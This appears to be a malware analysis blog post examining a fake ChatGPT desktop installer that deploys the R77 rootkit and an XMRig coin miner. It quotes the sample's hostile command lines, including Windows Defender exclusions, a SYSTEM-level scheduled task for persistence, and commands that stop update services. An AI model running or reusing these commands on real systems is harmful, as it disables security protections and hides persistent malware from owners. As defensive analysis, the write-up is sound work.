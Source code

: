 ```yaml
---
Tags: Trojans
---
```

## Investigating A Fake Trojanised ChatGPT Application

This sample is a trojanised ChatGPT installer which can be downloaded as an .msi file from SourceForge. It masquerades as a Free ChatGPT 4 binary but utilises the R77 rootkit to deploy XMRig coinminer malware.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/7dd1c425-3a00-49f9-871f-4fa5394e152c)

During installation, the directory 'C:\Program Files (x86)\OpenAI' is created, and process 'C:\Program Files (x86)\OpenAI\Chatgpt Desktop V4\Free Chatgpt V4\Free Chatgpt V4.exe' is executed.

This process spawns cmd.exe with the following command line:
```
C:\Windows\system32\cmd.exe /c "powershell.exe "Add-MpPreference -ExclusionPath “C:\Windows\Temp”,“C:/”,“.exe”""
```
This command will exclude any executables in the path "C:\Windows\Temp" from being looked at by Windows Defender, this is highly suspicious and indicates that something malicious is likely residing in the Temp directory.

Turning our attention to the Temp directory, we observe the following file creation event for the executable "Free Chatgpt V4.exe"

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/231c750a-27e8-4481-8cd0-9a40e7edc0dd)

Upon execution of 'Chatgpt Desktop V4.exe' which was installed on the Desktop, the binary 'Free Chatgpt V4.exe' in the Temp directory is executed silently. The same binary also exists as 'C:\Program Files\Google\Chrome\Googleupdater.exe'.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/c6453e05-2b36-4c3d-b9fe-783443a73bc2)

The binaries present at 'C:\Program Files\Google\Chrome\Googleupdater.exe' and 'C:\Windows\Temp\Free Chatgpt V4.exe' are R77 rootkits

R77’s primary purpose is to hide the presence of other software on a system, making it ideal in this case to hide elements of coin miner malware.

Further commands of interest were identified, but it's difficult to gather further context surrounding them likely due to the nature of the R77 rootkit.

_A scheduled task called "GoogleUpdateXQ" is created as a persistence mechanism to execute the rookit_
```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe <#sednnxbeh#> IF([System.Environment]::OSVersion.Version -lt [System.Version]"6.2") { schtasks /create /f /sc onlogon /rl highest /ru 'System' /tn 'GoogleUpdateXQ' /tr '''C:\Program Files\Google\Chrome\Googleupdater.exe''' } Else { Register-ScheduledTask -Action
(New-ScheduledTaskAction -Execute 'C:\Program Files\Google\Chrome\Googleupdater.exe') -Trigger (New-ScheduledTaskTrigger -AtStartup) -Settings (New-ScheduledTaskSettingsSet -AllowStartIfOnBatteries -DisallowHardTerminate -DontStopIfGoingOnBatteries -DontStopOnIdleEnd -ExecutionTimeLimit (New-TimeSpan -Days 1000)) -
TaskName 'GoogleUpdateXQ' -User 'System' -RunLevel 'Highest' -Force; }
```

_The scheduled task is executed directly via command line_
```
C:\Windows\System32\schtasks.exe /run /tn "GoogleUpdateXQ"
```


_A command is executed which manipulates sleep functions on the host, which is a technique leveraged by coin-mining malware_
```
C:\Windows\System32\cmd.exe /c powercfg /x -hibernate-timeout-ac 0 & powercfg /x -hibernate-timeout-dc 0 & powercfg /x -standby-timeout-ac 0 & powercfg /x -standby-timeout-dc 0
```

_Legitimate Windows services are stopped, this is another indication of coin miner malware_
```
C:\Windows\System32\cmd.exe /c sc stop UsoSvc & sc stop WaaSMedicSvc & sc stop wuauserv & sc stop bits & sc stop dosvc
```

_Further Windows Defender exclusion paths are added_
```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe Add-MpPreference -ExclusionPath @($env:UserProfile, $env:ProgramFiles) -Force
```
